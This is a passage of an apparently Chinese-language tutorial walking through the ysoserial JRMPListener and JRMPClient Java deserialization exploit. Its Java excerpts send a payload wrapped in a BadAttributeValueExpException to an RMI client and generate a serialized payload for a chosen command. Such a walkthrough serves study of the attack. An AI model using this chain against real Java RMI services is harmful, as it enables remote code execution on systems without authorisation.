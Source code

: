 ```plain

    if ( read.hashCode() == 2 ) {
        ois.readInt(); // method
        ois.readLong(); // hash
        System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject()));
    }

    System.err.println("Sending return with payload for obj " + read);
    //向输出流 out 写入一个字节，表示传输操作为返回操作
    out.writeByte(TransportConstants.Return);// transport op
    // 用于将对象写入输出流 out 中
    ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this.classpathUrl);
    // 向 oos 写入一个字节，表示传输操作为异常返回
    oos.writeByte(TransportConstants.ExceptionalReturn);
    // 创建一个新的 UID 对象，并将其写入 oos
    new UID().write(oos);

    BadAttributeValueExpException ex = new BadAttributeValueExpException(null);
    // 关键在于这里，将payload写入到ex对象的val属性，并写入输出流
    Reflections.setFieldValue(ex, "val", payload);
    oos.writeObject(ex);

    oos.flush();
    out.flush();

    this.hadConnection = true;
    synchronized ( this.waitLock ) {
        this.waitLock.notifyAll();
    }
}
```

最后 JRMPClient 端收到响应的数据

### payloads.JRMPClient

```plain
PayloadRunner.run(JRMPClient.class, args);
```

进入 run 方法  
**第一步：生成 payload**

```plain
byte[] serialized = new ExecCheckingSecurityManager().callWrapped(new Callable<byte[]>(){
    public byte[] call() throws Exception {
        final String command = args.length > 0 && args[0] != null ? args[0] : getDefaultTestCmd();

        System.out.println("generating payload object(s) for command: '" + command + "'");

        ObjectPayload<?> payload = clazz.newInstance();
        final Object objBefore = payload.getObject(command);

        System.out.println("serializing payload");
        byte[] ser = Serializer.serialize(objBefore);
        Utils.releasePayload(payload, objBefore);
        return ser;
}});
```
